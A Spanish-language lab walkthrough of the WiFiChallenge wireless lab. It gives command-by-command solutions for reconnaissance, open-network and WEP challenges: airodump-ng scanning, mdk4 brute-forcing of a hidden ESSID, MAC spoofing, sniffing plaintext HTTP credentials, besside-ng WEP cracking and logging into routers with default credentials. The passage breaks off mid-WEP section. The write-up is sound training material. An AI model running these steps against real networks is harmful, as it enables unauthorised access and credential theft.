# 📡 WiFiChallenge Lab — Ataques sobre redes inalámbricas


## 📋 Índice

1. [Introducción](#1-introducción)
2. [Contexto](#2-contexto)
3. [Recon](#3-recon)
4. [OPN — Redes abiertas](#4-opn--redes-abiertas)
5. [WEP](#5-wep)
6. [PSK](#6-psk)
7. [Recon MGT](#7-recon-mgt)
8. [Evidencia](#8-evidencia)

---

## 1. Introducción

### Objetivos

A partir del laboratorio [WiFiChallenge](https://lab.wifichallenge.com) resolver los siguientes retos:

1. **Recon** — Reconocimiento de redes inalámbricas
2. **OPN** — Ataques sobre redes abiertas
3. **WEP** — Crackeo de cifrado WEP
4. **PSK** — Ataques sobre WPA/WPA2-PSK
5. **Recon MGT** — Reconocimiento en redes Enterprise (802.1X)

---

## 2. Contexto

El laboratorio **WifiChallenge** ofrece una serie de retos que simulan escenarios reales de ataques sobre redes inalámbricas, permitiendo practicar tanto técnicas de reconocimiento como de ataque sobre diferentes protocolos de seguridad WiFi.

---

## 3. Recon

### Pregunta 1 — ¿Cuál es el canal que está utilizando el AP wifi-global?



Se listan las interfaces de red disponibles:



Se escoge `wlan0` y se activa el **modo monitor** para capturar todos los paquetes cercanos, independientemente de si van destinados al dispositivo o no:

```bash
airmon-ng start wlan0
```



Se crea la interfaz `wlan0mon`:


Se verifica el modo monitor con `iwconfig`:

```bash
iwconfig wlan0mon
```



Se escanea el tráfico a 5GHz con `airodump`:

```bash
airodump-ng wlan0mon --band abg
```




✅ **Respuesta:** El AP `wifi-global` está utilizando el **canal 44**.

---

### Pregunta 2 — ¿Cuál es la MAC del cliente wifi-IT?



A partir de la captura de `airodump-ng wlan0mon --band abg` se busca información sobre `wifi-IT`:


Está emitiendo en el **canal 11**, se especifica el canal:

```bash
airodump-ng wlan0mon -c 11
```





✅ **Respuesta:** La MAC del cliente de `wifi-IT` es **10:F0:6F:AC:53:52**.

---

### Pregunta 3 — ¿Cuál es la "probe" de 78:C1:A7:BF:72:46?



Una **Probe Response** es una trama de gestión enviada por un AP en respuesta a una Probe Request, que contiene información sobre la red (ESSID, velocidades, canal). La columna `Probes` muestra el AP al que está intentando conectarse el cliente:


✅ **Respuesta:** La probe de esa MAC apunta a **wifi-offices**.

---

### Pregunta 4 — ¿Cuál es el ESSID del AP oculto (MAC F0:9F:C2:6A:88:26)?



Se ejecuta `airodump` filtrando por el BSSID del AP oculto:

```bash
airodump-ng wlan0mon --bssid F0:9F:C2:6A:88:26
```




El AP oculto tiene un ESSID de **9 caracteres**. Se usa el fichero `rockyou-top100000.txt` del entorno, filtrando por el prefijo `wifi-`:

```bash
grep "^wifi-" /root/rockyou-top100000.txt > rockyouModificado.txt
```


```bash
wc -l rockyouModificado.txt
```





Se para la antena y se reinicia en el canal 11 donde está emitiendo el AP:

```bash
airmon-ng stop wlan0mon
```



```bash
airmon-ng start wlan0 11
```



Se lanza el ataque de fuerza bruta con `mdk4` contra la MAC del AP oculto con las contraseñas del diccionario filtrado:

```bash
mdk4 wlan0mon p -t F0:9F:C2:6A:88:26 -w rockyouModificado.txt
```



✅ **Respuesta:** El ESSID del AP oculto es **wifi-free**.

---

## 4. OPN — Redes abiertas

### Pregunta 1 — ¿Cuál es la flag en el router AP oculto detrás de las credenciales por defecto?



OPN indica red **abierta**, sin contraseña. Se crea un archivo de configuración para conectarse:

```bash
touch conf-free.conf
```




Se conecta usando `wpa_supplicant` con el protocolo `nl80211`:

```bash
wpa_supplicant -D nl80211 -i wlan2 -c conf-free.conf
```



Se obtiene IP dinámica via DHCP:

```bash
dhclient wlan2
```



Se navega a la IP obtenida (`192.168.16.1`) e intenta login con credenciales por defecto `admin:admin`:





✅ **Flag conseguido** con credenciales por defecto `admin:admin`.

---

### Pregunta 2 — ¿Cuál es la flag en el AP router de la red wifi-guest?



Se busca información sobre `wifi-guest` en la captura de airodump:


Emite en el **canal 6**. Se captura el tráfico específico de ese canal:

```bash
airodump-ng wlan0mon -c 6
```




El BSSID de `wifi-guest` es `F0:9F:C2:71:22:10`. Se identifica un dispositivo conectado y se copia su MAC para **suplantar su identidad**:



Se apaga la interfaz, se cambia la MAC y se vuelve a levantar:



Se crea el archivo de configuración `wifi-guest.conf`:

```bash
touch wifi-guest.conf
```




```bash
wpa_supplicant -D nl80211 -i wlan2 -c wifi-guest.conf
```


```bash
dhclient wlan2
```



Al intentar acceder a `192.168.10.1` con `admin:admin` no se consigue el flag:





Se captura tráfico HTTP para buscar credenciales expuestas en peticiones POST:

```bash
mkdir capturas
```



```bash
airodump-ng wlan0mon -c 6 --bssid F0:9F:C2:71:22:10 -w capturas/captura06
```





Se abre la captura con Wireshark filtrando por HTTP:

```bash
wireshark -r capturas/captura06-01.cap
```





Se obtienen usuario y contraseña en texto claro de las peticiones POST. Se intenta login con esas credenciales:





✅ **Flag conseguido** capturando credenciales en texto claro del tráfico HTTP.

---

## 5. WEP

### Pregunta 1 — ¿Cuál es la flag en el sitio web de wifi-old AP?



Se busca `wifi-old` en la captura de airodump:



El AP `wifi-old` usa **cifrado WEP**, con BSSID `F0:9F:C2:71:22:11` en el canal 3. Se usa **besside-ng** para crackear todas las redes WEP en rango y capturar handshakes WPA:

```bash
besside-ng -b F0:9F:C2:71:22:11 wlan0mon
```





`besside-ng` realiza dos acciones:
- **Captura handshakes WPA** al detectar intentos de conexión de clientes.
- **Captura paquetes WEP** para descifrar la clave.

La contraseña obtenida queda también registrada en el archivo `besside.log`:



Se crea el archivo de configuración `wifi-old.conf` con la contraseña obtenida (sin los `:` del formato WEP):




```bash
wpa_supplicant -D nl80211 -i wlan2 -c wifi-old.conf
```



```bash
dhclient wlan2
```



Se accede a la IP obtenida a través del navegador y se obtiene el flag:

